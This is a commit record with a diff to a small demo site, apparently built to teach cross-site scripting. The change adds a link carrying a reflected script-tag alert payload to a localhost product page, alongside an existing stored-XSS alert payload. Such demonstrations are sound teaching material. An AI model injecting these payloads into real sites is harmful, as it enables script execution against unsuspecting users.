

Before and after one commit to jrmcgarvey/tooeasy2, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
add XSS reflection

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -7,17 +7,27 @@
     <title>Click Me!</title>
 </head>
 <body>
+    <a id="naiveLink">Click this link!</a>
+    <br>
+    <br>
     <button id="runscript">Click Me!</button>
    <p id="message">You've clicked the button 0 times.</p>
    <script>
     document.addEventListener("DOMContentLoaded", () =>{
+        const scripttag = "script"
+        const params = new URLSearchParams();
+        const hmessage = "\'You have been hacked!\'"
+        params.append("product", `<${scripttag}>alert(${hmessage})</${scripttag}>`)
+        const url = new URL("http://localhost:3000/restricted/product")
+        fullurl = url.toString() + "?" + params.toString()
+        const linkpoint = document.getElementById("naiveLink")
+        linkpoint.setAttribute("href",fullurl)
         let i=0;
         const button = document.getElementById("runscript");
         const message = document.getElementById("message");
         //console.log("button is", button)
         const payload = [];
         const alertmsg = "\"Bad news, you have been hacked!\""
-        const scripttag = "script"
         const badstuff = `This is the bad stuff: <${scripttag}>alert(${alertmsg})</${scripttag}>`
         payload.push(`${encodeURIComponent("title")}=${encodeURIComponent("Surprise!")}`);
         payload.push(`${encodeURIComponent("text")}=${badstuff}`);
```
